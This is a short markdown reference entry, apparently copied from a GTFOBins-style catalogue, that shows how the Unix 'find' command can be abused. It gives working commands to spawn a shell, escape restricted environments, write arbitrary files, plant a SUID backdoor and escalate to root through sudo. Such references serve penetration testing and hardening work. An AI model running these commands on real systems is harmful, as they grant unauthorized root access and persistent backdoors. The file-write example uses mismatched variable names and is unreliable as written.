 ```yaml
---
id: find
aliases:
  - Shell
tags: []
---
```


# Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

`$ find . -exec /bin/sh \; -quit` 

# File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.
DATA is a format string, it supports some escape sequences.

```
$ LFILE=file_to_write
$ find / -fprintf "$FILE" DATA -quit
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
$ sudo install -m =xs $(which find) .
$ ./find . -exec /bin/sh -p \; -quit

```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

`$ sudo find . -exec /bin/sh \; -quit` 


